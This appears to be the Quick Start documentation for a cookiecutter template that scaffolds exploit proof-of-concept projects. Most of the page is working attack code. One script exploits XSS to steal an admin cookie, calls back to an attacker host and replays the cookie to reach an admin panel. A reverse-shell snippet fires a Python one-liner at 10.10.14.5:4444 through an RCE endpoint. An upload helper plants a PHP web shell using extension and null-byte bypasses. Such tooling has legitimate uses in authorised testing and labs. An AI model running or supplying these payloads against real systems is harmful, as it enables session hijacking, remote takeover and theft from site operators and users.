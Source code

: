 Quick Start
===========

Build your first POC in 5 minutes.

Prerequisites
-------------

Install `uv <https://docs.astral.sh/uv/>`_ (used for package management and running cookiecutter):

.. code-block:: bash

   # macOS/Linux
   curl -LsSf https://astral.sh/uv/install.sh | sh

   # Or with pip
   pip install uv

   # Or with brew (macOS)
   brew install uv

Create a New POC Project
------------------------

.. code-block:: bash

   uvx cookiecutter https://github.com/kwkeefer/cookiecutter-poc

Answer the prompts (or press Enter for defaults).

Run Your First Command
-----------------------

.. code-block:: bash

   cd your_project_name
   uv run your_project --help

Your First Exploit
-------------------

Edit ``src/your_project/exploit.py``:

.. code-block:: python

   """
   Simple XSS cookie stealer POC
   """
   import requests
   from your_project.utils.output import out
   from your_project.utils.xss import cookie_stealer
   from your_project.utils.server_hooks import get_cookie
   from your_project.utils.cookie import parse_cookie_string

   def main(target_url, lhost, lport):
       """Exploit XSS to steal admin cookie"""

       # Generate XSS payload
       payload = cookie_stealer(f"http://{lhost}:{lport}")
       out.info(f"Payload: {payload}")

       # Send payload to target
       out.status("Sending XSS payload...")
       requests.post(f"{target_url}/comment",
                    data={"content": payload})

       # Wait for admin to visit
       out.status("Waiting for callback...")
       cookie = get_cookie(timeout=60)

       if cookie:
           out.success(f"Cookie captured: {cookie}")

           # Parse and use it
           cookies = parse_cookie_string(cookie)
           r = requests.get(f"{target_url}/admin", cookies=cookies)

           if "Admin Panel" in r.text:
               out.success("Successfully accessed admin panel!")
           else:
               out.error("Cookie didn't grant admin access")
       else:
           out.error("No callback received")

   if __name__ == "__main__":
       import argparse
       parser = argparse.ArgumentParser()
       parser.add_argument("--target", default="http://target.local")
       parser.add_argument("--lhost", required=True)
       parser.add_argument("--lport", default=8000, type=int)
       args = parser.parse_args()

       main(args.target, args.lhost, args.lport)

Run Your Exploit
----------------

In one terminal, start the HTTP callback server:

.. code-block:: bash

   uv run your_project --server

In another terminal, run your exploit:

.. code-block:: bash

   python src/your_project/exploit.py --lhost YOUR_IP --target http://victim.com

Common Patterns
---------------

**Colored Output**

.. code-block:: python

   from your_project.utils.output import out

   out.success("Vulnerability confirmed!")
   out.error("Connection failed")
   out.info("Starting exploit")
   out.warning("Using default credentials")
   out.debug("Response: 200 OK")

**Reverse Shell**

.. code-block:: python

   from your_project.utils.reverse_shells import python_oneliner
   from your_project.utils.shell_catcher import auto_shell

   # Generate shell payload
   cmd = python_oneliner("10.10.14.5", 4444)

   # Catch shell automatically
   with auto_shell(4444) as catcher:
       # Trigger RCE with your payload
       requests.get(f"{target}/rce?cmd={cmd}")

       # Interact with shell
       if catcher.shell_caught:
           catcher.stabilize()  # Upgrade to PTY
           catcher.interact()   # Full interactive shell!

**File Upload**

.. code-block:: python

   from your_project.utils.file_upload import FileUploader

   uploader = FileUploader(f"{target}/upload")
   result = uploader.upload_with_bypass(
       "shell.php",
       b"<?php system($_GET['cmd']); ?>",
       techniques=["double_extension", "null_byte"]
   )

Next Steps
----------

* Explore more :doc:`examples`
* Read :doc:`workflows` for end-to-end scenarios
* Browse the :doc:`api/index` for all available utilities
